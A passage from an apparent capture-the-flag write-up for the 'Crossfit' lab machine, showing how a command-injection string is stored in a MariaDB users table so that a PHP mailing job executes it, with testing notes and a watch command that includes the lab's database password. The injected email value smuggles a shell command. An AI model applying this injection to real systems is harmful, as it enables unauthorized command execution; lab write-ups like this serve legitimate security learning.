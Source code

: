
So if I want to add a command injection into the database, I can do it from
`mysql`:

    
    
    MariaDB [crossfit]> insert into users(email) values('--wrong || touch /dev/shm/0xdf'); 
    Query OK, 1 row affected (0.002 sec)
    

And it’s there:

    
    
    MariaDB [crossfit]> select * from users;                                              
    +----+--------------------------------+
    | id | email                          |
    +----+--------------------------------+
    | 52 | 0xdf@crossfit.htb              |
    | 79 | --wrong || touch /dev/shm/0xdf |
    +----+--------------------------------+
    2 rows in set (0.000 sec)
    

### Execution POC

As a proof of concept, I’ll try to just write a file. I wasted a lot of time
and learned some lessions:

  * `/tmp` is not writable, so testing with `touch /tmp/anything` will fail even if the exploit works;
  * The `cleanup()` function in PHP must be removing any malicious emails from the DB on each run;
  * That cleanup happens regardless of if the mail send (and thus execution) was triggered or not;
  * `lftp` seems to show a file even after it’s been deleted sometimes.

I got comfortable testing with three consoles. Two were shells on Crossfit,
and one logged into FTP as ftpadm. The first shell is in the DB. The second is
running a watch command to track status / success.

    
    
    www-data@crossfit:/dev/shm$ watch 'date; mysql -u crossfit -poeLoo~y2baeni crossfit -e "select * from users"; ls'
    

This will print out the time (so I can watch for the cron), the current
`users` table (so I can see what’s pending), and the contents of `/dev/shm`,
and update every two seconds. It starts looking like this:

    
    
    Every 2.0s: date; mysql -u crossfit -poeL...  crossfit: Tue Jan 26 17:19:49 2021
    
    Tue Jan 26 17:19:49 EST 2021
    id      email
    52      0xdf@crossfit.htb
    

Next, I’ll upload a file to `messages` over FTP (any file):
